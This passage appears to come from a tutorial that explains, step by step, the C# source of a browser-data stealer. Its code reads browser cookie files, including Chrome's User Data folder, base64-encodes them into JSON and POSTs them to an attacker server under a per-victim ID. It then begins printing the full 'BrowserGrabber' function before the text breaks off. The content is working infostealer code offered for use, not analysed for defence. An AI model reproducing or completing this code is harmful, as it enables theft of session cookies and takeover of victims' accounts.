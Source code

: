 The same for a cookie file 
[CODE]

    JArray cookiesArray = new JArray();                   
    foreach (var cookiesPath in cookiesFiles)
                    {
                        try
                        {
                            if (File.Exists(cookiesPath))
                            {
                                byte[] cookiesDataBytes = File.ReadAllBytes(cookiesPath);
                                string cookiesDataBase64 = Convert.ToBase64String(cookiesDataBytes);
                                cookiesArray.Add(cookiesDataBase64);
                            }
                        }
                        catch (Exception ex)
                        {
                            Console.WriteLine($"Cookies could not be accessed: {cookiesPath}. Error: {ex.Message}");
                            continue;
                        }
                    }
                    browserJson["cookies"] = cookiesArray;
[/CODE]
After writing all the necessary data to the browser object, the browser object is added to the main object: 
[CODE]

    mainJson[browserName] = browserJson;
[/CODE]Since all this code is in a foreach loop, this code will be repeated over and over again , until the entire list from the dictionary with paths ends.
Sending JSON to the server at browser_log plus a unique user ID: 
[CODE]

    await SendPostRequestAsync($"{Variables.ip}/browser_log/{Variables.uniqueId}", mainJson.ToString());
[/CODE]
For those who don't want to learn the code line by line, here is the complete code for the function.

[CODE]

    static async Task BrowserGrabber()

    {

    try

    {

        Dictionary<string, string> browserPaths = new Dictionary<string, string>

        {

            { "Google Chrome", Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData), @"Google\Chrome\User Data") },
